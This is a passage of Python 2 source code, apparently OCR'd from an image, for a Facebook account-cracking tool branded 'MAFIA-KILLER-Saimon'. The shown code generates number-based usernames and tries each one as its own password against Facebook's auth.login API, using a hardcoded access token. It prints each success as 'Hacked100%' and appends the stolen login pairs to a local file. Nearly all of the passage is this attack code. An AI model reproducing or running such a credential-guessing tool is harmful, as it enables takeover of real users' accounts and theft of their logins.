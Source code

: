 		login()

	elif ahmad =='0':

		exb()

	else:

		print '[!] Fill in correctly'

		action()

	xxx = str(len(id))

	psb ('[✓] Total Numbers: '+xxx)

	time.sleep(0.5)

	psb ('\033[1;91m[✓]\033[1;94m Please wait, process is running ...')

	time.sleep(0.5)

	psb ('[!] To Stop Process Press CTRL+z')

	time.sleep(0.5)

	print "\033[1;96m💖━━━━━━━━━━💘💘💘(MAFIA-KILLER-Saimon)💘💘💘━━━━━━━━━💖\n" 

	

	

			

	def main(arg):

		global checkpoint,successfull

		user = arg

		try:

			os.mkdir('save')

		except OSError:

			pass

		try:

			pass1 = user

			data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' +k+c+user+ '&locale=en_US&password=' + pass1 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')

			q = json.load(data)

			if 'access_token' in q:

				print '\x1b[1;92m{Hacked100%💉}  ' + k + c + user + '  》  ' + pass1+'\n'+"\n"

				okb = open('save/successfull.txt', 'a')

				okb.write(k+c+user+'-•◈•-'+pass1+'\n')

				okb.close()
